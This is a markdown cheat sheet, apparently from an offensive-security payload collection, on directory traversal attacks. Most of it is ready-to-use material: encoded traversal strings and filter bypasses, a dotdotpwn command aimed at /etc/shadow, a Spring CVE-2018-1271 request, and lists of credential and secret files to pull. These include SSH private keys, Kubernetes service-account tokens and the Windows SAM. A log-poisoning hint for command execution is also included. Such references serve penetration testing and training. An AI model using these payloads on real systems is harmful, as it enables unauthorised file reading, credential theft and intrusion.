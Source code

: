+++
type = "docs"
title = "Directory Traversal"
date = "2023-03-28"
description = "All about directory traversal techniques, methods, payloads, how/why/when they work."
include_toc = 'true'
+++

# Directory Traversal

> A directory or path traversal consists in exploiting insufficient security validation / sanitization of user-supplied input file names, so that characters representing "traverse to parent directory" are passed through to the file APIs.
## Summary

* [Tools](#tools)
* [Basic exploitation](#basic-exploitation)
    * [16 bits Unicode encoding](#16-bits-unicode-encoding)
    * [UTF-8 Unicode encoding](#utf-8-unicode-encoding)
    * [Bypass "../" replaced by ""](#bypass--replaced-by-)
    * [Bypass "../" with ";"](#bypass--with-)
    * [Double URL encoding](#double-url-encoding)
    * [UNC Bypass](#unc-bypass)
    * [NGINX/ALB Bypass](#nginxalb-bypass)
* [Path Traversal](#path-traversal)
    * [Interesting Linux files](#interesting-linux-files)
    * [Interesting Windows files](#interesting-windows-files)
* [References](#references)

## Tools

- [dotdotpwn - https://github.com/wireghoul/dotdotpwn](https://github.com/wireghoul/dotdotpwn)
    ```powershell
    git clone https://github.com/wireghoul/dotdotpwn
    perl dotdotpwn.pl -h 10.10.10.10 -m ftp -t 300 -f /etc/shadow -s -q -b
    ```

## Basic exploitation

We can use the `..` characters to access the parent directory, the following strings are several encoding that can help you bypass a poorly implemented filter.

```powershell
../
..\
..\/
%2e%2e%2f
%252e%252e%252f
%c0%ae%c0%ae%c0%af
%uff0e%uff0e%u2215
%uff0e%uff0e%u2216
```

### 16 bits Unicode encoding

```powershell
. = %u002e
/ = %u2215
\ = %u2216
```

### UTF-8 Unicode encoding

```powershell
. = %c0%2e, %e0%40%ae, %c0ae
/ = %c0%af, %e0%80%af, %c0%2f
\ = %c0%5c, %c0%80%5c
```

### Bypass "../" replaced by ""
Sometimes you encounter a WAF which remove the "../" characters from the strings, just duplicate them.

```powershell
..././
...\.\
```

### Bypass "../" with ";"

```powershell
..;/
http://domain.tld/page.jsp?include=..;/..;/sensitive.txt
```

### Double URL encoding

```powershell
. = %252e
/ = %252f
\ = %255c
```

**e.g:** Spring MVC Directory Traversal Vulnerability (CVE-2018-1271) with `http://localhost:8080/spring-mvc-showcase/resources/%255c%255c..%255c/..%255c/..%255c/..%255c/..%255c/..%255c/..%255c/..%255c/..%255c/windows/win.ini`

### UNC Bypass

An attacker can inject a Windows UNC share ('\\UNC\share\name') into a software system to potentially redirect access to an unintended location or arbitrary file.

```powershell
\\localhost\c$\windows\win.ini
```

### NGINX/ALB Bypass

NGINX in certain configurations and ALB can block traversal attacks in the route, For example:
```http://nginx-server/../../``` will return a 400 bad request.
To bypass this behaviour just add forward slashes in front of the url:
```http://nginx-server////////../../```
### Java Bypass
Bypass Java's URL protocol
```powershell
url:file:///etc/passwd
url:http://127.0.0.1:8080
```


## Path Traversal

### Interesting Linux files

```powershell
/etc/issue
/etc/passwd
/etc/shadow
/etc/group
/etc/hosts
/etc/motd
/etc/mysql/my.cnf
/proc/[0-9]*/fd/[0-9]*   (first number is the PID, second is the filedescriptor)
/proc/self/environ
/proc/version
/proc/cmdline
/proc/sched_debug
/proc/mounts
/proc/net/arp
/proc/net/route
/proc/net/tcp
/proc/net/udp
/proc/self/cwd/index.php
/proc/self/cwd/main.py
/home/$USER/.bash_history
/home/$USER/.ssh/id_rsa
/run/secrets/kubernetes.io/serviceaccount/token
/run/secrets/kubernetes.io/serviceaccount/namespace
/run/secrets/kubernetes.io/serviceaccount/certificate
/var/run/secrets/kubernetes.io/serviceaccount
/var/lib/mlocate/mlocate.db
/var/lib/mlocate.db
```

### Interesting Windows files

Always existing file in recent Windows machine.
Ideal to test path traversal but nothing much interesting inside...

```powershell
c:\windows\system32\license.rtf
c:\windows\system32\eula.txt
```

Interesting files to check out (Extracted from https://github.com/soffensive/windowsblindread)

```powershell
c:/boot.ini
c:/inetpub/logs/logfiles
c:/inetpub/wwwroot/global.asa
c:/inetpub/wwwroot/index.asp
c:/inetpub/wwwroot/web.config
c:/sysprep.inf
c:/sysprep.xml
c:/sysprep/sysprep.inf
c:/sysprep/sysprep.xml
c:/system32/inetsrv/metabase.xml
c:/sysprep.inf
c:/sysprep.xml
c:/sysprep/sysprep.inf
c:/sysprep/sysprep.xml
c:/system volume information/wpsettings.dat
c:/system32/inetsrv/metabase.xml
c:/unattend.txt
c:/unattend.xml
c:/unattended.txt
c:/unattended.xml
c:/windows/repair/sam
c:/windows/repair/system
```

The following log files are controllable and can be included with an evil payload to achieve a command execution

```powershell
/var/log/apache/access.log
/var/log/apache/error.log
/var/log/httpd/error_log
/usr/local/apache/log/error_log
/usr/local/apache2/log/error_log
/var/log/nginx/access.log
/var/log/nginx/error.log
/var/log/vsftpd.log
/var/log/sshd.log
/var/log/mail
```
## Labs

* [File path traversal, simple case](https://portswigger.net/web-security/file-path-traversal/lab-simple)
* [File path traversal, traversal sequences blocked with absolute path bypass](https://portswigger.net/web-security/file-path-traversal/lab-absolute-path-bypass)
* [File path traversal, traversal sequences stripped non-recursively](https://portswigger.net/web-security/file-path-traversal/lab-sequences-stripped-non-recursively)
* [File path traversal, traversal sequences stripped with superfluous URL-decode](https://portswigger.net/web-security/file-path-traversal/lab-superfluous-url-decode)
* [File path traversal, validation of start of path](https://portswigger.net/web-security/file-path-traversal/lab-validate-start-of-path)
* [File path traversal, validation of file extension with null byte bypass](https://portswigger.net/web-security/file-path-traversal/lab-validate-file-extension-null-byte-bypass)

## References

* [Path Traversal Cheat Sheet: Windows](https://gracefulsecurity.com/path-traversal-cheat-sheet-windows/)
* [Directory traversal attack - Wikipedia](https://en.wikipedia.org/wiki/Directory_traversal_attack)
* [CWE-40: Path Traversal: '\\UNC\share\name\' (Windows UNC Share) - CWE Mitre - December 27, 2018](https://cwe.mitre.org/data/definitions/40.html)
* [NGINX may be protecting your applications from traversal attacks without you even knowing](https://medium.com/appsflyer/nginx-may-be-protecting-your-applications-from-traversal-attacks-without-you-even-knowing-b08f882fd43d?source=friends_link&sk=e9ddbadd61576f941be97e111e953381)
* [Directory traversal - Portswigger](https://portswigger.net/web-security/file-path-traversal)